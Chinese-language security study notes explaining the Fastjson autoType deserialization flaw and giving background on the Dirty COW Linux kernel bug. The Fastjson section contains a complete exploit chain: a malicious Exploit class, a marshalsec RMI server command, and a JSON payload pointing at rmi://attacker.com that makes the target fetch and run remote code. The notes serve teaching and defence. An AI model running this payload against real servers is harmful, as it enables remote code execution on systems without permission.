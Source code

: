 - Fastjson 是一个 Java 库，可以将 Java 对象转换为 JSON 格式，也可以将 JSON 字符串转换为 Java 对象。
- Fastjson 在解析 JSON 对象时，会使用 `autoType` 实例化某一个具体的类，并调用 `set/get` 方法访问属性。
- Fastjson 在处理 JSON 对象时，没有对 @type 字段进行完整的安全性验证，攻击者可以传入危险的类并调用危险类连接远程 RMI 或 LDAP 服务器，通过恶意类执行恶意代码，进而实现远程代码执行漏洞。
- Fastjson 的漏洞影响的版本有多个，一般需要根据CVE编号来判断是否受影响，例如CVE-2017-18349影响的版本为 fastjson < 1.2.25。

### Fastjson漏洞原理

1. 写一个恶意的 Java 类，例如 `Exploit.java` ，其中包含执行命令或其他危险操作的逻辑，例如 `Runtime.getRuntime().exec()` 。
2. 编译该类，得到 `Exploit.class` 文件，并将其上传到一个可访问的 `Web` 服务器上，例如 `http://example.com/Exploit.class` 。
3. 用 marshalsec 或 ysoserial 等工具，生成一个 RMI 服务的引用，指向恶意类的 URL ，例如 `rmi://attacker.com:1099/Exploit` 。
4. 造一个特殊的 JSON 字符串，其中包含 `@type` 字段，指定一个存在反序列化漏洞的类，例如 `com.sun.rowset.JdbcRowSetImpl` ，并设置 `dataSourceName` 字段为RMI服务的引用。
5. 该 JSON 字符串发送到目标服务器的 Fastjson 反序列化接口，触发漏洞。

一个具体的利用示例如下：

- 编写 `Exploit.java` 文件，内容如下：

```java
public class Exploit {
    public Exploit() {
        try {
            Runtime.getRuntime().exec("calc.exe");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

- 编译该文件，得到Exploit.class文件，并将其上传到 `http://example.com/Exploit.class` 。
- 使用 marshalsec 工具，生成 RMI 服务的引用：

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://example.com/#Exploit" 1099
```

- 构造JSON字符串，内容如下：

```json
{
    "@type":"com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName":"rmi://attacker.com:1099/Exploit",
    "autoCommit":true
}
```

- 将该 JSON 字符串发送到目标服务器的 Fastjson 反序列化接口，例如 `http://target.com/api/json` 。如果目标服务器使用了 Fastjson <= 1.2.24版本，并且开启了autoType功能，就会触发漏洞，执行 `calc.exe` 命令。

## 脏牛漏洞相关

- Dirty cow 是一个Linux内核的内存子系统在处理写时拷贝（Copy-on-Write）时存在条件竞争漏洞，导致可以破坏私有只读内存映射。黑客可以在获取低权限的本地用户后，利用此漏洞获取其他只读内存映射的写权限，进一步获取root权限。
- Dirty cow 漏洞存在于Linux内核中已经有长达9年的时间，在2007年发布的Linux内核版本中就已经存在此漏洞。
- Dirty cow 漏洞在2016年10月18日被黑客Phil Oester提交，**2016年10月20日**被Linux内核团队成员、Linux的创始人Linus Torvalds修复。
- Dirty cow 漏洞影响的 Linux 内核版本为 2.6.22 及以上，修复的版本为 4.8.3 及以上。
- Dirty cow 漏洞也影响了基于Linux的操作系统，包括Android，但不同的Android版本和厂商可能有不同的修复时间和方式。

